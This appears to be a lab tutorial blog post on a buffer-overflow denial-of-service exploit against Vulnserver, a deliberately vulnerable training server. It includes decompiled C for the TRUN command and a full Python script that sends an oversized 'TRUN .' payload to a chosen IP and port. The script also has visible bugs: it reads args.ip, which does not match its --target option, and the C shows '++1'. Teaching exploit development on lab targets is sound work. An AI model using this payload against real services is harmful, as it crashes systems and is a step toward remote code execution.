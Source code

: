 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 1
published: 2025-10-22
description: DoS exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 DoS Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Dd5HpNzpu6w?si=ziFH6kOkVx-yjs3p" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Vulnerability
Vulnserver v1.00 has the following commands:

1.  HELP
2.  STATS [stat\_value]
3.  RTIME [rtime\_value]
4.  LTIME [ltime\_value]
5.  SRUN [srun\_value]
6.  TRUN [trun\_value]
7.  GMON [gmon\_value]
8.  GDOG [gdog\_value]
9.  KSTET [kstet\_value]
10. GTER [gter\_value]
11. HTER [hter\_value]
12. LTER [lter\_value]
13. KSTAN [lstan\_value]
14. EXIT

The code that controls **TRUN** is as follows:

```c
else if ( !strncmp(buf, "TRUN ", 5u) )
{
	Destination = (char *)malloc(3000u);
	memset(Destination, 0, 3000u);
	for ( i = 5; i < len; ++1 )
	{
		if ( buf[i] == 46 )
		{
			strncpy(Destination, buf, 3000u);
			Function3(Destination);
			break;
		}
	}
	memset(Destination, 0, 0xBB8u);
	v17 = send(s, "TRUN COMPELTE\n", 14, 0);
}

char *__cdecl Function3(char *Source)
{
	char Destination[2008];

	return strcpy(Destination, Source);
}
```

Here, if the **6th value** of the string following the **TRUN** command matches **46** (ASCII text (46): `.`), `Function3` is called from `essfunc.dll`. This function creates a buffer that can store a string of **2008 bytes** but then saves **3000 bytes** into it. This is a very dangerous vulnerability that can allow a **Buffer OverFlow (BOF)** attack.

## PoC
```python
from argparse import ArgumentParser
from socket import *

def createPayload():
    data = b"A" * 65535

    payload = b"TRUN \x2E"
    payload += data

    return payload

def exploit(ip: str, port: int):
    print("[~] Generating payload...")
    payload = createPayload()
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] DoS Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    
    args = parser.parse_args()

    target_ip       = str(args.ip)
    target_port     = int(args.port)

    exploit(target_ip, target_port)

if __name__ == "__main__":
    main()
```

The Proof of Concept (PoC) above is code that **overwrites 65,535 bytes of memory** via a Buffer Overflow (BOF) attack.
The program terminates abnormally with a DEP Violation error.
A DEP Violation error means that an error is returned due to **an attempted return to a non-executable memory location**.
This indicates that **it's possible to overwrite the return address in the program to perform a Control Flow Hijack,** which could ultimately lead to the execution of a remote attacker's shellcode.
In Part 2, we will develop an RCE Exploit involving a NOP Slide and shellcode generation.